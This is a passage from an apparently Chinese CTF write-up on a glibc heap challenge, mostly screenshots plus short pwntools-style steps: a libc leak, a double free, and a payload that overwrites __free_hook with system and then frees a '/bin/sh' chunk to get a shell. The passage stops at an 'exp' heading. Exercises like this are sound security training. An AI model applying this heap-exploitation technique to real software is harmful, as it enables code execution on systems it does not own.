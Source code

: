 [![](assets/1701612363-782932d5d4d0f73693841a99cee89395.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212501-0345e06e-19a5-1.png)  
先泄露个 libc 基地址

```bash
delete(7)
```

[![](assets/1701612363-251315bc6226ffe444bad3bc0717c156.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212525-11bfaf8a-19a5-1.png)  
能看到合并的 chunk

[![](assets/1701612363-76940cdce538abe7d1e57d08feb67dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212534-171ce830-19a5-1.png)

[![](assets/1701612363-c179c9fb74f7fe0708801037ef2b084f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212540-1ade2452-19a5-1.png)

```bash
add(10,0x80,'a')
```

留下一个空间

[![](assets/1701612363-ec4b1a566024f5cbcdad518dadae2edb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212557-24a67688-19a5-1.png)

```bash
delete(8)
```

```bash
double free
```

[![](assets/1701612363-c1c3a23a5e1d224caeb8a69bfea30e61.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212611-2d08693a-19a5-1.png)

```bash
payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)
```

直接申请一个较大的 chunk 去覆盖就可以了

[![](assets/1701612363-16ca4bea82132d5b609d0c119f0f6e5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212655-4774ba44-19a5-1.png)

```bash
add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
```

申请写入 '/bin/sh\\x00' ，改 free\_hook 为 system，free 一下直接 getshell

[![](assets/1701612363-3021922aff9232cf7d3f170ac1af0ac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212719-560b63dc-19a5-1.png)

### exp
